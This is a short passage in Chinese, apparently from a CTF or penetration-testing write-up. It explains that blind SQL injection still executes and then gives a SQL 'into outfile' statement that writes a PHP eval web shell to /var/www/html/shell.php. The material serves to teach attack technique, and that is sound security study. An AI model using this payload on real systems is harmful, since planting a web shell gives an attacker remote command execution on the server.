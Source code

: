 这个有一定的迷惑性，大多数结果无回显，但通过我们本地测试时监听数据库语句发现还是执行了sql，于是写 shell

```
select "<?php @eval($_POST['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

<img src=".\图片\Snipaste_2023-08-10_13-52-57.png" alt="Snipaste_2023-08-10_13-52-57" style="zoom:80%;" />

